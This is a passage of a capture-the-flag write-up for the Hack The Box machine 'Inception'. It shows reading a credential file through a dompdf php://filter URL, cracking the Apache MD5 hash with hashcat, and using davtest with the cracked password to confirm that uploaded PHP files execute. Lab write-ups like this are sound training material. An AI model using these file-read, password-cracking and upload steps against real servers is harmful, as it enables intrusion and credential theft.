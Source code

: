 ### Exploiting webdav
Navigating to http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/var/www/html/webdav_test_inception/webdav.passwd, we are able to obtain the base64-encoded value of a password hash

![Obtaining password hash](https://github.com/joelczk/writeups/blob/main/HTB/Images/Inception/password_hash.png)

Using hashid, we recognize the hash type as MD5(APR). From the output, we can obtain the decoded value as ```babygurl69```

```
┌──(kali㉿kali)-[~]
└─$ hashid '$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0'              
Analyzing '$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0'
[+] MD5(APR) 
[+] Apache MD5 
```

Next, we will use hashcat to crack the hash

```
┌──(kali㉿kali)-[~/Desktop/inception]
└─$ hashcat -m 1600 hash.txt /home/kali/Desktop/pentest/wordlist/rockyou.txt
...
$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0:babygurl69
...
```

### Exploiting webdav
Next, we will use davtest to test the webdav service found on http://inception.htb/webdav_test_inception.  From the output, we can see that we can upload a php web shell and execute commands on the php webshell.

```            
┌──(kali㉿kali)-[~/Desktop/inception]
└─$ davtest -url http://inception.htb/webdav_test_inception -auth webdav_tester:babygurl69
********************************************************
 Checking for test file execution
EXEC    html    SUCCEED:        http://inception.htb/webdav_test_inception/DavTestDir_kkxD_jN7Zg/davtest_kkxD_jN7Zg.html
EXEC    shtml   FAIL
EXEC    jsp     FAIL
EXEC    php     SUCCEED:        http://inception.htb/webdav_test_inception/DavTestDir_kkxD_jN7Zg/davtest_kkxD_jN7Zg.php
EXEC    jhtml   FAIL
EXEC    asp     FAIL
EXEC    cfm     FAIL
EXEC    aspx    FAIL
EXEC    cgi     FAIL
EXEC    txt     SUCCEED:        http://inception.htb/webdav_test_inception/DavTestDir_kkxD_jN7Zg/davtest_kkxD_jN7Zg.txt
EXEC    pl      FAIL

********************************************************
```
